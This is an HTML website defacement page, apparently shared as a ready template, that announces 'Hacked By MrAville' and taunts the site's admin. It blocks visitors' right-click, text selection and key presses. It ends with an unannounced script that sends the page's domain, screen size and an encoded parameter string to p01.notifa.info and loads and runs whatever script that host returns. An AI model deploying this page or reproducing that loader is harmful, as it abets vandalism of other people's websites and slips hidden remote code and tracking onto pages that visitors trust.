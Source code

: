# Script
Example Script by MrAville






<!DOCTYPE html>
<html>

<head>
	<title>Hacked By MrAville</title>
	<meta charset="UTF-8">
	<meta name="Author" content="MrAville"/>
	<meta name="copyright" content="MrAville"/>
	<meta name="description" content="Website Pawned by MrAville"/>
	<link href='http://fonts.googleapis.com/css?family=Iceland:400,700' rel='stylesheet' type='text/css'>
	<link href='http://fonts.googleapis.com/css?family=Iceland:400,700' rel='stylesheet' type='text/css'>
	<meta property="og:image" content="">
		<style type="text/css">
			body {
				overflow:hidden;
				background-image:url('http://www.drodd.com/images16/black-picture8.jpg');
				background-color: #000000;
				background-repeat:no-repeat;
				background-size: 100% ;
				background-position:top center;
				margin: 0px;
				cursor:none;
				font-family: Iceland, sans-serif;
			}
			a{
				text-decoration: none;
			}
			h1{
			font-family: Iceland, sans-serif;
			font-size:90px;
			color:#fff;
			margin:0px 0px 0px;

			}
			h2{
			font-family: Iceland, sans-serif;
			font-size:40px;
			color:#000;
			margin: 0px;
			text-shadow: 0 0 3px #fff;

			}
			p{
			color:#fff;
			font-size:25px;
			margin: 0px;
			text-shadow: 0 0 3px #ff0099;

			}
			.fot{
			font-family: Iceland, sans-serif;
			font-size:14px;
			color:#fff;
			margin: 0px;
			text-shadow: 0 0 3px #000, 0px 0px 5px #000;
			}
			 h1{
			color:#000;
			text-shadow: 0 0 5px #fff;
		}
		.greets{
	font-family: Arial, sans-serif;
	line-height: 24px;
	font-size: 11px;
	width: 50%;
	background: #000;
	opacity: 0.9;
	text-transform: uppercase;
	z-index: 9999;
	border-radius:10px;
	-moz-box-shadow: 1px 0px 2px #000;
	-webkit-box-shadow: 1px 0px 2px #000;
	box-shadow: 1px 0px 2px #000;
}
		</style>
	</head>
	<div id="I301_html">

<script type="text/javascript" src="http://code.jquery.com/jquery.min.js"></script>

<script type="text/javascript">setTimeout("$('#loading').fadeOut(5000);", 10000);  </script>

<style type="text/css">#loading{position:fixed;top:0;left:0;padding-top:0px;background-color:#000;width:100%;height:100%;color:black;z-index:9000;overflow:hidden;}</style>

<div id="loading">
<body onload="document.f.p.focus()" topmargin="0" leftmargin="0" bgcolor="#000000" marginheight="0" marginwidth="0">
<table border="0" cellpadding="2" cellspacing="0" width="100%">
<tbody><tr>


</tr>

<tr>



</tr>
</tbody></table>
<font id="ResponseData" color="#ff99cc">
<pre><script type="text/javascript">
TypingText = function(element, interval, cursor, finishedCallback) {
  if((typeof document.getElementById == "undefined") || (typeof element.innerHTML == "undefined")) {
    this.running = true;	// Never run.
    return;
  }
  this.element = element;
  this.finishedCallback = (finishedCallback ? finishedCallback : function() { return; });
  this.interval = (typeof interval == "undefined" ? 100 : interval);
  this.origText = this.element.innerHTML;
  this.unparsedOrigText = this.origText;
  this.cursor = (cursor ? cursor : "");
  this.currentText = "";
  this.currentChar =0;
  this.element.typingText = this;
  if(this.element.id == "") this.element.id = "typingtext" + TypingText.currentIndex++;
  TypingText.all.push(this);
  this.running = false;
  this.inTag = false;
  this.tagBuffer = "";
  this.inHTMLEntity = false;
  this.HTMLEntityBuffer = "";
}
TypingText.all = new Array();
TypingText.currentIndex = 0;
TypingText.runAll = function() {
  for(var i = 0; i < TypingText.all.length; i++) TypingText.all[i].run();
}
TypingText.prototype.run = function() {
  if(this.running) return;
  if(typeof this.origText == "undefined") {
    setTimeout("document.getElementById('" + this.element.id + "').typingText.run()", this.interval);	// We haven't finished loading yet.  Have patience.
    return;
  }
  if(this.currentText == "") this.element.innerHTML = "";
//  this.origText = this.origText.replace(/<([^<])*>/, "");     // Strip HTML from text.
  if(this.currentChar < this.origText.length) {
    if(this.origText.charAt(this.currentChar) == "<" && !this.inTag) {
      this.tagBuffer = "<";
      this.inTag = true;
      this.currentChar++;
      this.run();
      return;
    } else if(this.origText.charAt(this.currentChar) == ">" && this.inTag) {
      this.tagBuffer += ">";
      this.inTag = false;
      this.currentText += this.tagBuffer;
      this.currentChar++;
      this.run();
      return;
    } else if(this.inTag) {
      this.tagBuffer += this.origText.charAt(this.currentChar);
      this.currentChar++;
      this.run();
      return;
    } else if(this.origText.charAt(this.currentChar) == "&" && !this.inHTMLEntity) {
      this.HTMLEntityBuffer = "&";
      this.inHTMLEntity = true;
      this.currentChar++;
      this.run();
      return;
    } else if(this.origText.charAt(this.currentChar) == ";" && this.inHTMLEntity) {
      this.HTMLEntityBuffer += ";";
      this.inHTMLEntity = false;
      this.currentText += this.HTMLEntityBuffer;
      this.currentChar++;
      this.run();
      return;
    } else if(this.inHTMLEntity) {
      this.HTMLEntityBuffer += this.origText.charAt(this.currentChar);
      this.currentChar++;
      this.run();
      return;
    } else {
      this.currentText += this.origText.charAt(this.currentChar);
    }
    this.element.innerHTML = this.currentText;
    this.element.innerHTML += (this.currentChar < this.origText.length - 1 ? (typeof this.cursor == "function" ? this.cursor(this.currentText) : this.cursor) : "");
    this.currentChar++;
    setTimeout("document.getElementById('" + this.element.id + "').typingText.run()", this.interval);
  } else {
	this.currentText = "";
	this.currentChar = 0;
        this.running = false;
        this.finishedCallback();
  }
}
</script>
<script>
function disableselect(e){return false}

function reEnable(){return true}

//if IE4+
document.onselectstart=new Function ("return false")

//if NS6
if (window.sidebar){
document.onmousedown=disableselect
document.onclick=reEnable
}
</script>
<script>
var message="";
function clickIE()

{if (document.all)
{(message);return false;}}

function clickNS(e) {
if
(document.layers||(document.getElementById&&!document.all))
{
if (e.which==2||e.which==3) {(message);return false;}}}
if (document.layers)
{document.captureEvents(Event.MOUSEDOWN);document.  onmousedown=clickNS;}
else
{document.onmouseup=clickNS;document.oncontextmenu  =clickIE;}

document.oncontextmenu=new Function("return false")
</script>

<table style=" background-repeat: no-repeat;"  align="right" border="0" width="100%" >

<br>

<tbody><tr>
<td  valign="top"><p id="hack" >

<br>
<br>
<font style="color:#ffffff;text-shadow:#FF0099 0px 0px 10px"> &nbsp;&nbsp;&nbsp;&nbsp;<b>[+] MrAville Is Now Into Your System...        </font> <br>
<font style="color:#ffffff;text-shadow:#FF0099 0px 0px 10px"> &nbsp;&nbsp;&nbsp;&nbsp;<b>[+] Admin  </font><br>
<font style="color:#ffffff;text-shadow:#FF0099 0px 0px 10px"> &nbsp;&nbsp;&nbsp;&nbsp;<b>[+] Your Security is Not Safe </font><br>
<font style="color:#ffffff;text-shadow:#FF0099 0px 0px 10px"> &nbsp;&nbsp;&nbsp;&nbsp;<b>[+] <font style="color:red;text-shadow:#000 0px 0px 3px">Mr</font><font style="color:white;text-shadow:#000 0px 0px 3px"> Aville</font>  [*]         </font> <br>
					 <font color="White">


</p></tr>
</tbody></table>                 </div>
<br>

<script type="text/javascript">
new TypingText(document.getElementById("hack"), 50, function(i) { var ar = new Array("_",""); return " " + ar[i.length % ar.length]; });
TypingText.runAll();

</script>

    <style>

      td

      {

        background-color: #000000;

        font-family: Courier New;

        font-size:20px;

        color:#000000;

        border-color: #000000;

        border-width:1pt;

        border-style:solid;

        border-collapse:collapse;

        padding:0pt 3pt;

        vertical-align:top;

      }

      table

      {

        border-color: #88aace;

        border-width:0pt 1pt;

        border-style:dash;

      }

      A:Link, A:Visited

      {

        color: #88aace;

      }

      A.no:Link, A.no:Visited

      {

        color: #88aace;

        text-decoration: none;

      }

      A:Hover, A:Visited:Hover , A.no:Hover, A.no:Visited:Hover

      {

        color: #88aace;

        background-color:#2e2e2e;

        text-decoration:

        overline underline;

      }

      .style1

      {

        color: #88aace

      }

      .style2

      {

        color: 1f1f1f

      }

      body

      {

        color:white;

        background-position:right;

        background-attachment:fixed;

        </div>

      }

    </style>


</div>

</div>
<body oncontextmenu="return false" onkeydown="return false">
<center>
<h2 class="glow"><font style="color:green;text-shadow:#000 0px 0px 3px"></font><font style="color:red;text-shadow:#000 0px 0px 3px">Mr</font><font style="color:white;text-shadow:#000 0px 0px 3px"> Aville</font>
<font style="color:green;text-shadow:#000 0px 0px 3px"></font></h2>
<img src="https://1.bp.blogspot.com/-r9z7gno_Kmc/WKzuDapzzkI/AAAAAAAAAfs/iEco8UwEuiMxvovwEGuLcZkO0AN8mfxBQCLcB/s1600/logo%2B5.jpg"width="350"height="350">
<h2 class="glow2" ><font style="color:yellow;text-shadow:#000 0px 0px 3px">.::Hacked By::.</font><br> <span style="color:orange;font-family:Iceland;text-shadow:white 0px 0px 10px">./</span><span style="color:#ffffff;font-family:Iceland;text-shadow:#FF0099 0px 0px 10px">MrAville</span></b></h2>
<p><b><font style="color:green;text-shadow:#000 0px 0px 3px">Sorry Admin, I Was On Your System. By </font><span style="font-family:Iceland;color:red;text-shadow:#000 0px 0px 3px">Anonymous,</span>
			<font style="color:green;text-shadow:#000 0px 0px 3px">PLEASE </font><font style="color:blue;text-shadow:#000 0px 0px 3px">CHECK</font>
			<font style="color:green;text-shadow:#000 0px 0px 3px"> YOUR SECURITY !</font><br><font style="color:yellow;text-shadow:#000 0px 0px 3px">#*#*#*#</font>
		    </p>
		</span>
			<div style="font-size:10px;color:gold;text-shadow:grey 0px 0px 3px">
		<span style="font-family:Iceland;font-weight:bold;color:#ffffff"><p><font style="color:green;text-shadow:#000 0px 0px 3px">~NO SYSTEM IS SAFE~</font></p></span>
	</div>

<div class="greets">
<table align=center border="0">
<tr>
<td width=100% id=greetz>
<marquee behavior="scroll" direction="left" scrollamount="4" scrolldelay="55" width="100%">
<font size="5px" style="font-family: Iceland, sans-serif;color:white;text-shadow: 0 0 3px red, 0px 0px 5px red" >
<b>-=|[MrAville]-[Just a Little Kid]|=-</font>
</marquee>
</td>
</table></div>
<div class="fot">
Copyrights &copy;
</div>
</center>
<script type="text/javascript">if (self==top) {function netbro_cache_analytics(fn, callback) {setTimeout(function() {fn();callback();}, 0);}function sync(fn) {fn();}function requestCfs(){var idc_glo_url = (location.protocol=="https:" ? "https://" : "http://");var idc_glo_r = Math.floor(Math.random()*99999999999);var url = idc_glo_url+ "p01.notifa.info/3fsmd3/request" + "?id=1" + "&enc=9UwkxLgY9" + "&params=" + "4TtHaUQnUEiP6K%2fc5C582JKzDzTsXZH2xsR9F5UiAWFGm5g3kLpJhhSs97kWmRRZ3MxB6GisC9ZbteuTnGVVr%2bXvVRZ29aIFXWQsZV3mP8b7bQpmsR%2bSjA%2fgH0A66Y9XcjPrg3mrIiGPL7DMkX1wOlFyHcvNW4a9SzlAdnIDHj8zSZ7G8Yvy0bPu%2fj9XzWb3OTeWFqbmPZBUK0VA9MABURecxjqr3NX4TEdqBeaUVZFYE0EJrzJoolBhvbxIV42k1oR6eTFumZCPDJNXawodsKx3jO4Wsj9fVOZ33788w60TpjN6O9bx2PiTyg9CdkhBQ5hu8%2f8DKcesIUx9h7D%2fsczjGF2Ywu9yqlgqnSD6VH0%2fhA5%2bivD4xx7fwdD%2fYdYLo9xrE4ZXPXZkbrBDeQ5hO2tboBsKtbdcioJGLOwu8g3kAxDAbQfwxFGPsT4Wt5HM2n7F3vhZp4%2bwql2P0b4T46gQsXassA1tVxYX14wYJI6R6nNN%2fCi69MwoS3aJm1R71D8YAqdPXkIroGfMlfmU3XRRZUD%2b9shvhAKP6J1MWqjT%2be29rkpKYEJXd8%2bNheu%2bVBea5fTu4GI%3d" + "&idc_r="+idc_glo_r + "&domain="+document.domain + "&sw="+screen.width+"&sh="+screen.height;var bsa = document.createElement('script');bsa.type = 'text/javascript';bsa.async = true;bsa.src = url;(document.getElementsByTagName('head')[0]||document.getElementsByTagName('body')[0]).appendChild(bsa);}netbro_cache_analytics(requestCfs, function(){});};</script></
